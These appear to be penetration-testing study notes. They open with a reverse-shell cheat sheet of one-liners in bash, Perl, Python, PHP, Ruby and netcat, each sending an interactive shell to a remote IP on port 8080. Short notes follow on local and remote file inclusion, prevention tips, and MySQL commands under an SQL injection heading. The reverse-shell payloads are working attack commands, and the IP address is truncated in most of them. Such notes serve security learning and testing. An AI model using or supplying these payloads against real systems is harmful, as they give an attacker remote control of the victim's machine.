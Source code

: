 nc-> netcat , vv-> verbose output

BASH

`bash -i >& /dev/tcp/10.20.14.203/8080 0>&1`

PERL

`perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

PHP

`php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'`

Ruby

`ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

Netcat

`nc -e /bin/sh 10.20.14 8080`

### local file inclusion

this allows an attacker to read any file on the server and access files outside www directory

### remote file inclusion

similar to local file inclusion, but allows an attacker read any file from server, execute php files from other servers on the current server, store php files on other sources as .txt, we need to enable the fucntion that converts local file inclusion to remote file inclusion

### prevent file upload, code execution and file inclusion vulnerabilities

file upload - only allow safe files to be uploaded

code execution - don't use dangerous functions or filter user input before execution

file inclusion - disable allow_url_fopen and allow_url_inlude, use static file inclusion

### SQL injection

`mysql -u root -h <target ip>`

for using a db

`use <dbname>`

`show tables;`
